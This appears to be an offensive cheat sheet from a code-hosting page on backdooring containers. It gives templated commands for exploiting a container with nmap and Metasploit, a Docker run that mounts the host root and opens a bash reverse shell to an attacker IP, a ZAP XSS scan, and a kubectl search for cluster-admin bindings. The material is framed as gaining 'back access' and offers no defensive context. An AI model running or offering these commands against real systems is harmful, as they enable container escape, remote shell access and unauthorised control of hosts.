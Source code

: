 


### Backdoor container



1. Using Nmap and Metasploit:

```
nmap -p <container_port> <container_ip> && msfconsole -x "use exploit/<exploit_module>; set RHOST <container_ip>; set RPORT <container_port>; set PAYLOAD <payload>; run"
```



Explanation:

- Replace `<container_port>` with the specific port number of the container you want to target.
- Replace `<container_ip>` with the IP address of the container.
- `<exploit_module>` refers to the specific Metasploit exploit module you want to use.
- `<payload>` represents the payload you want to use for gaining back access to the container.

2. Using Docker and Reverse Shell:

```
docker run -v /:/hostroot -it <container_image> /bin/bash -c 'chroot /hostroot; bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'
```

Explanation:

- Replace `<container_image>` with the name of the container image you want to exploit.
- `<attacker_ip>` should be replaced with the IP address of the machine where the attacker has their listener.
- `<attacker_port>` should be replaced with the port number where the attacker is listening for incoming connections.


3. Using OWASP ZAP and XSS Attack:

```
zap-cli quick-scan --spider <container_url> && zap-cli active-scan --recursive --scanners xss <container_url>
```

Explanation:

- Install OWASP ZAP (Zed Attack Proxy) and ensure the `zap-cli` command-line tool is available.
- Replace `<container_url>` with the URL of the container you want to test for cross-site scripting (XSS) vulnerabilities.
- The command will perform a quick scan and spider the target URL, followed by an active scan with the XSS scanner enabled.


### Cluster-admin binding

```
kubectl get clusterrolebindings | grep cluster-admin
```

This command utilizes the `kubectl` tool, assuming you have it installed and configured properly. It retrieves all the cluster role bindings and filters them using `grep` to search for the term "cluster-admin." This way, you can identify any bindings with cluster-admin privileges.
